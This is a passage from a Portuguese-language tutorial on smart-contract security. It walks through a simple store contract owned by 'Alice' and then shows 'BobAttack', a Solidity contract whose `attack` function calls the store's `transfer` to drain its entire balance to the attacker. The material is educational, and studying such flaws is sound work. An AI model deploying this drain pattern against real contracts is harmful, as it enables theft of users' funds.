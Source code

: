 É um contrato bem simples apenas para o nosso caso de estudo, pois veja que na função comprar não está definido um **preço** para ser executa, ou seja, para executa-la o cliente precisa inserir um valor em ETH, mais precisamente, em **wei**.

> Nota: 1 ETH = $1\times10^{18}wei$

![Alt text](/assets/transfer.png)

A função `transfer` ela pode ser executada apenas pela **Alice**, que para ser executada precisa ser fornecido dois "valores":

- `address`: o endereço da conta **EOA** ou **SCA** para o qual **Alice** deseja enviar o saldo que ela possui no contrato da loja.

- `amount`: o valor que a dona do contrato deseja enviar.

Já a função `getBalance` quando for executada nos retorna o **saldo** associado ao contrato inteligente em **wei**.
Exemplo:

![Alt text](/assets/getbalance.png)

Nesse caso o contrato possui um total de 10 ETH= $1\times10^{19}wei$

### Agora partindo para o contrato malicioso

Um usuário que vamos chamar de **Bob** percebeu a vulnerabilidade no contrato da **Alice**, criou o seguinte contrato:

```javascript
contract BobAttack {
    address public owner;
    LojaAlice store;

    constructor(LojaAlice _store) {
        store = LojaAlice(_store);
        owner = msg.sender;
    }

    function attack() public {
        store.transfer(owner, address(store).balance);
    }

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```
